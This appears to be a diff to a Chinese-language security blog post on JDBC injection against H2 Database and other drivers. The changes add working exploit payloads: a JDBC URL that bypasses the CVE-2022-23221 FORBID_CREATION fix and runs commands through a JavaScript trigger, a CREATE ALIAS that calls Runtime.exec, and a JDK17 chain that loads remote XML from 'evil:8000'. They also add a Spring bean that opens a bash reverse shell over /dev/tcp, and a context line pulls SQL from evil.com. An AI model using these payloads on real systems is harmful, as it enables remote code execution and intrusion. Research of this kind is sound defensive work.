

Before and after one commit to alivk353/alivk353.github.io, a Jekyll site: the page built from _posts/2022-03-29-JDBC-H2Database-RCE.md, in a window 1280 px wide and 1400 px high, scrolled down 1784 px. Shown: the whole window, without its empty margins (231-1048 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

````diff
--- a/_posts/2022-03-29-JDBC-H2Database-RCE.md
+++ b/_posts/2022-03-29-JDBC-H2Database-RCE.md
@@ -62,13 +62,44 @@ H2控制台依然支持JNDI注入:
 
 ### CVE-2022-23221: H2 Database Web Console未授权JDBC攻击导致远程代码执行
 
-尽管在1.4.198版本中不允许创建新数据库 但可以通过可控的`JDBC URL` 进行JDBC注入攻击
+尽管在1.4.198版本中不允许创建新数据库 修复方式追加属性`FORBID_CREATION=TRUE` 即禁止创建数据库:
+
+默认ifExists=true时 追加属性`databaseUrl += ";FORBID_CREATION=TRUE"`
+
+在JDBC参数解析使用`;`分割 而且支持`\`转义 为了方便执行多行sql语句
+
+可以在JDBC URL字符串最末尾增加一个`\`转义`;FORBID_CREATION=TRUE`最前面的`;` 让这个属性失效:
+
+```text
+jdbc:h2:mem:test;MODE=MSSQLServer;IGNORE_UNKNOWN_SETTINGS=TRUE;FORBID_CREATION=FALSE;INIT=CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript
+    java.lang.Runtime.getRuntime().exec("calc.exe")
+$$;XXX=\
+```
+
+但可以通过可控的`JDBC URL` 进行JDBC注入攻击
 
 H2的URL标准格式通常为：`jdbc:h2:[file:|mem:|tcp:]<databaseName>;<key1>=<value1>;<key2>=<value2>...`
 
 `org.h2.Driver`支持`INIT`参数 来执行初始化SQL:
 
 `jdbc:h2:mem:test;MODE=MSSQLServer;INIT=RUNSCRIPT FROM 'http://evil.com/setup.sql'`
+
+> 这里引用外部sql为了方便执行多条语句 在无外网权限下 使用`;`执行多条语句
+
+> 这里分号使用`\`转义 避免被解析成jdbc参数
+
+编译执行java代码:
+
+```java
+CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws
+java.io.IOException {Runtime.getRuntime().exec(cmd);return
+"test";}';
+CALL EXEC ('open -a Calculator.app');
+```
+
+> 注意使用jre运行的环境 是没有javac命令的 无法编译ALIAS中的java代码
+
+
 
 在无法访问外网的情况 如果环境存在Groovy依赖 可通过编译Groovy语句时执行Java代码:
 
@@ -86,6 +117,26 @@ jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON IN
     java.lang.Runtime.getRuntime().exec('cmd /c calc.exe')
 $$
 ```
+
+#### JDK17 下的利用
+
+JDK高版本删除JavaScriptEngine H2提供一套直接引用已编译的静态方法机制:
+
+允许Java静态方法 Class和Method必须声明public
+
+```sql
+CREATE ALIAS CLASS_FOR_NAME FOR 'java.lang.Class.forName(java.lang.String)';
+CREATE ALIAS NEW_INSTANCE FOR 'org.springframework.cglib.core.ReflectUtils.newInstance(java.lang.Class, java.lang.Class[], java.lang.Object[])';
+
+SET @url_str='http://evil:8000/evil.xml';
+SET
+
+@context_clazz=CLASS_FOR_NAME('org.springframework.context.support.ClassPathXmlApplicationContext');
+SET @string_clazz=CLASS_FOR_NAME('java.lang.String');
+
+CALL NEW_INSTANCE(@context_clazz, ARRAY[@string_clazz], ARRAY[@url_str]);
+```
+
 
 ## Derby内嵌数据库
 
@@ -261,7 +312,19 @@ driver:`com.ibm.db2.jcc.DB2Driver`
 
 控制configLocation远程xml 达到SSRF/XXE效果
 
-在xml中可构造bean触发解析SPEL表达式:
+在xml中可构造bean触发解析SPEL表达式或直接执行命令:
+
+```xml
+<bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
+    <constructor-arg>
+        <list>
+            <value>bash</value>
+            <value>-c</value>
+            <value><![CDATA[bash -i >& /dev/tcp/host/4444 0>&1]]></value>
+        </list>
+    </constructor-arg>
+</bean>
+```
 
 ### log文件写入
 
````
Also changed, not shown: _posts/2020-09-10-marshal-deserializayion.md (+27 -0 lines), _posts/2020-12-27-Fastjson.md (+34 -12 lines), _posts/2023-03-16-ctf-tricks.md (added, +18 -0 lines), _posts/2023-04-20-表达式注入-模板注入.md (+4 -4 lines), _posts/2023-06-19-fastjson-关键版本1280.md (added, +456 -0 lines), image/76ba1edb2b7d63e533a239685418eebc0fa108cbb1562a101e23b3ade0f7ab7b.png (added), image/911a95c53da60a31c706e4e1d0e6449b0cd442a134fa1aee0f25ec8d04671aa3.png (added), image/980b8df120662fc87abe6441374048fa88c233067fafcb0fad4738713f247bab.png (added), image/cff3d307677b36c7c0aed7c966286090ca1d91e61092a23d58c1f174795de4a9.png (added), image/dd12a808da9008808ab50fb86712a328be8f30832bedf21495feb70787880723.png (added), image/f7504b436a3545e066aea7fb70128bb94d693a9d2e919e9bfc525c05694cce90.png (added).
